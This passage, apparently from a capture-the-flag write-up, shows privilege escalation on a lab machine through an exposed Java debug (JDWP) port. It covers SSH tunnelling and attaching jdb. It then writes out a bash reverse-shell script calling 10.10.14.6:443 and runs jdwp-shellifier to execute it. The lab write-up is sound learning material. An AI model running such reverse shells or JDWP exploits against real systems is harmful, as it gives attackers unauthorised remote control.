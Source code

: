
That’s a ton of options, but one is really important:

    
    
    -agentlib:jdwp=transport=dt_socket,address=localhost:8000,server=y,suspend=n
    

That means that Java debug is on and listening on port 8000.

I can use SSH tunnels to see the page on 8080. I’ll hit enter a couple times
in my SSH session, and then `~C` to get to the SSH config prompt:

    
    
    ssh> -L 88:localhost:8080
    Forwarding port.
    

Now I can visit `http://localhost:88` and see the default Tomcat page:

![image-20191111151713468](https://0xdfimages.gitlab.io/img/image-20191111151713468.png)

### jdb

I can use `jdb` to connect to the debug interface. I’ll forward my local post
223 (arbitrary choice on my part) to 8000 on AI over SSH the same way as
above, and then connect:

    
    
    root@kali# jdb -attach localhost:223
    Set uncaught java.lang.Throwable
    Set deferred uncaught java.lang.Throwable
    Initializing jdb ...
    >
    

[This article from IOActive](https://ioactive.com/hacking-java-debug-wire-
protocol-or-how/) is a really good run down of how JDWP works, and how to
exploit it.

There’s a lot of things I could try here, but none worked really well.

### Shell

There’s a script that I can use from GitHub, [jwdp-
shellifier](https://github.com/IOActive/jdwp-shellifier). To keep the process
simple, I’ll write a shell script in `/dev/shm/`:

    
    
    alexa@AI:~$ cat /dev/shm/.df.sh 
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    

Now I’ll start a listener, and run the `jwdp-shellifier`:

    
    
    root@kali# python /opt/jdwp-shellifier/jdwp-shellifier.py -t 127.0.0.1 -p 223 --cmd '/dev/shm/.df.sh'
    [+] Targeting '127.0.0.1:223'
    [+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
    [+] Found Runtime class: id=a9e
    [+] Found Runtime.getRuntime(): id=7fa928023910
    [+] Created break event id=2
    [+] Waiting for an event on 'java.net.ServerSocket.accept'
    [+] Received matching event from thread 0x1
    [+] Selected payload '/dev/shm/.df.sh'
    [+] Command string object created id:b43
    [+] Runtime.getRuntime() returned context id:0xb44
    [+] found Runtime.exec(): id=7fa928023948
    [+] Runtime.exec() successful, retId=b45